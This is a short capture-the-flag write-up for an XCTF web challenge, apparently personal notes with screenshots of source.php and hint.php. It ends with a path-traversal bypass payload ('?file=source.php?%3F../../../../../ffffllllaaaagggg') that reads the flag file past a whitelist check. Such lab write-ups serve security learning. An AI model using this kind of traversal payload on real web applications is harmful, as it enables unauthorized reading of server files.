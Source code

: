 https://adworld.xctf.org.cn/task/answer?type=web&number=3&grade=1&id=5442&page=1

. view source

<img width="782" alt="Not Secure  111 200 241 24465197" src="https://user-images.githubusercontent.com/48151790/126885857-2fb24110-ba27-4335-a642-de685a475239.png">

. source.php

<img width="664" alt="Not Secure  111 200 241 24465197source php" src="https://user-images.githubusercontent.com/48151790/126885863-50e1e428-daeb-41e4-84a6-7f463e45d264.png">

. hint.php

<img width="596" alt="Not Secure  111 200 241 24465197hint php" src="https://user-images.githubusercontent.com/48151790/126885866-4e35f948-c26d-4dea-ab1d-cbd9d8b8a0df.png">

=> Maybe Path traversal???

=> ../../ffffllllaaaagggg

=> bypass: ?file=source.php?%3F../../../../../ffffllllaaaagggg

<img width="810" alt="Screen Shot 2021-07-22 at 21 31 39" src="https://user-images.githubusercontent.com/48151790/126885891-5fdf872b-0851-49ca-bc14-f7115d91a384.png">
